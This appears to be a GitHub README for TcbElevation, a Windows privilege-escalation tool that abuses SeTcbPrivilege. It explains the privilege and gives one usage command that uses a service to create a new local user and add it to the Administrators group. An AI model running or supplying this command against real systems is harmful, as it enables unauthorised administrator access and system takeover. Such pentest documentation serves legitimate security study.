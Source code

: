 # TcbElevation

SeTcbPrivilege, known as "Act as part of the operating system," is a security privilege in Windows operating systems. This privilege grants an account the ability to authenticate like any user and thus impersonate any user without authentication. Essentially, it allows a process to perform actions or access resources by impersonating any user, without needing their credentials. This is a highly sensitive privilege because it effectively allows bypassing security checks, making it a target for attackers who seek to elevate privileges or perform actions stealthily.

Due to its powerful nature, SeTcbPrivilege is typically reserved for critical system processes and is not granted to standard user accounts. In secure environments, it's essential to monitor and control which accounts have this privilege to mitigate potential security risks. Misuse of this privilege can lead to significant security vulnerabilities, allowing attackers to escalate their privileges on a system or network undetected.

# Usage

## Simple example:
```powershell
.\TcbElevation.exe <name of the service> "C:\Windows\System32\cmd.exe /c net user <user> <password> /add && net localgroup administrators <user> /add"

Error starting service 1053
```
Please note: "Error starting service 1053" is expected


# Sources
The code comes from:
https://gist.github.com/antonioCoco/19563adef860614b56d010d92e67d178

More info:
https://pentest.party/notes/windows/privilege-tcb
